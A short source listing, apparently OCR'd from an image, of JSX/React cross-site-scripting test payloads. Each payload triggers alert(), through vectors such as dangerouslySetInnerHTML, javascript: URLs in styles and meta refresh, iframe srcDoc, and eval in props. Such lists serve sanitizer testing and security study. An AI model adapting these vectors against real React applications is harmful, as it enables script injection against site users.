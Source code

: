 <Component onClick={() => alert('JSX component injection')} />

<div {...{onClick: () => alert('spread props')}}>Spread attributes</div>

<script type="text/babel">
  const MyComponent = () => {
    alert('JSX in script tag');
    return React.createElement('div', null, 'XSS');
  };
</script>

{alert('Direct JavaScript expression')}

{/* Comment with <script>alert('XSS')</script> */}

<div dangerouslySetInnerHTML={{__html: '<script>alert("XSS")</script>'}} />

<div ref={(el) => alert('ref callback')} />

<Component 
  {...{
    onClick: function() { alert('function prop') },
    onLoad: () => eval('alert("eval in prop")'),
    children: <script>alert('JSX children')</script>
  }}
/>

<div className={`class-${alert('template literal')}`} />

<MyCustomComponent>
  <script>alert('Custom component children')</script>
</MyCustomComponent>

<div style={{backgroundImage: 'url("javascript:alert(\'CSS injection\')")'}} />

<iframe srcDoc="<script>alert('XSS via srcDoc')</script>" />

<meta httpEquiv="refresh" content="0;url=javascript:alert('XSS')" />